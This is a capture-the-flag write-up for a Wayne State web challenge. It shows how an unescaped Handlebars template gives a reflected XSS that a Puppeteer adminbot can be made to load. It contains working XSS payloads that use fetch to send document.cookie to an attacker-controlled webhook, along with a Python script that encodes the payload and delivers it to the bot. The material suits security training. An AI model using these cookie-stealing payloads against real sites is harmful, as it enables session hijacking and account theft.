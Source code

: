 # 🏴 Can You Trick Me?

> **Category:** Web  
>
> **Points:** 20 pts  
>
> **Author:** Sebastian  
>
> **Description:** I built a website to help others create designs and ideas for their own webpages! Can you trick the administrator of this website to send you the flag?

---

## Purpose

The purpose of this challenge was to craft a request to an adminbot that redirects to a page with an XSS vulnerability, and use this XSS vulnerability to exfiltrate the cookie that the adminbot has set on it. In this XSS, you can make a request to a webhook, and since the site has httpOnly cookies disabled, you can leak the cookie with javascript using document.cookie, and make a request to a webhook you control with the value of the cookie.

## Exploitation

**Looking Through the File System**

For challenges like this, downloading the files and looking through them is imperative. if we look through the file system, the interesting routes are:

/generate

```js
app.post('/generate', (req, res) => {
    const userInput = req.body.input || '';
    const pageId = Date.now().toString();
    res.redirect(`/page/${pageId}?input=${encodeURIComponent(userInput)}`);
});
```

/page/:id

```js
app.get('/page/:id', (req, res) => {
    const pageId = req.params.id;
    const userInput = req.query.input || '';
    res.render('generated', { userInput, pageId });
});
```

/adminbot

```js
app.get('/adminbot', async (req, res) => {
    const targetUrl = req.query.url;

    console.log(`Admin bot visiting: ${targetUrl}`);

    try {
        const browser = await puppeteer.launch({
            headless: 'new',
            args: ['--no-sandbox', '--disable-setuid-sandbox']
        });
        const page = await browser.newPage();

        await page.setCookie({
            name: 'flag',
            value: 'WSUCTF{f4k3_flag}',
            domain: 'waynestateuniversity-ctf24-handlebars.chals.io', // if running locally, replace with localhost or docker interface ip
            path: '/',
            httpOnly: false,
        });

        await page.goto(targetUrl, { waitUntil: 'networkidle2', timeout: 5000 });
        await browser.close();

        res.send('Admin bot has visited the page');
    } catch (err) {
        console.error('Admin bot error:', err);
        res.status(500).send('Error running admin bot');
    }
});
```

Straight away, we know that we have to exploit this because we see the cookie in the page.setCookie() command with the value of WSUCTF{f4k3_flag}.

And on the frontend:

/views/generated.hbs

```hbs
<body>
  <div class="container">
    <h1>Page ID: {{pageId}}</h1>
    <p>This page was generated based on your input:</p>
    <div class="input-display">
      {{{userInput}}}
    </div>
  </div>
</body>
```

In this page, we see {{{userInput}}}. This is dangerous because when using triple curly braces in handlebars, any javascript and html on the page is not escaped. So we can do html injection like this:

![html injection](./htmlinjection.png)

turns into this:

![html injection result](./htmlinjectionresult.png)

And this javascript injection:

![javascript injection](./jsinjection.png)

turns into this:

![javascript injection result](./jsinjectionresult.png)

So we have a way to get an XSS injection, now we have to trick the adminbot into visiting our webpages. The adminbot accepts a url to visit a website, so we can give it a url to visit a generated webpage that will trigger an XSS and exfiltrate their cookie. In this challenge, the generate endpoint won't be useful, only the /page/:id will be useful to render the vulnerable generated.hbs file with a userInput and pageId.

One tricky part of this that you have to be careful of when doing this is to url encode the payload that will go into the /page/:id and also the payload that goes into the adminbot endpoint, so as a result part of our payload will be double url encoded.

Another tricky part of this is that after trying with the normal
```js
<img src = "x" onerror = "fetch('<webhook_url>' + document.cookie)">
```
to exfiltrate the adminbot cookie. This didn't end up working. It turns out that when using headless browsers, sometimes its hard to trigger xss on browsers using just pure html. A better strategy is to use
a <script></script> tag that adds Javascript to the page. This ensures that the entire page gets loaded when the browser visits the url, the page will be populated with everything, and afterwards, the malicious img tag will be added to the page which will then cause the XSS to trigger.

We can accompish this by changing the payload to this:

```js
<script>document.body.innerHTML+='<img src="x" onerror="fetch(\'<webhook_url>?c='+document.cookie+'\')">'</script>
```

This will load javascript, then add the image to the page, which guarantees that our onerror function triggers.

Once we have this payload, we can put it into our python script to solve the challenge. The python script for this is located in the solve folder.

This is the initial payload that we need to get the adminbot to execute:

```py
'''<script>document.body.innerHTML+='<img src="x" onerror="fetch(\\'<webhook_url>?c='+document.cookie+'\\')">'</script>'''
```

Now, we have to send this payload to the adminbot. In order to do this, first we will construct a new url for the adminbot to visit which will include our /page/:id endpoint. To do this we will url encode our payload and add it to the input query parameter:

```py
payload = f'''
<script>document.body.innerHTML+='<img src="x" onerror="fetch(\\'{webhook_url}?c='+document.cookie+'\\')">'</script>
'''
encoded_input = quote(payload)
target_url = f"https://waynestateuniversity-ctf24-handlebars.chals.io/page/1337?input={encoded_input}"
```
Then, we have to make a request to the /adminbot endpoint, and deliver this payload to the url query parameter. As long as we url encode this target url again, and send it to the adminbot, the bot should visit our page, the onclick error should trigger, and we should get the bot's cookie sent to our webhook.

```py
encoded_target_url = quote(target_url)
adminbot_url = f"https://waynestateuniversity-ctf24-handlebars.chals.io/adminbot?url={encoded_target_url}"


print(f"Sending to: {adminbot_url}")
requests.get(adminbot_url)
```


## Solution

![Solution](./Solution.png)

![flag](./flag.png)

flag: ```WSUCTF{Next_t1me_use_pr3pared_st4t3ments_plz}```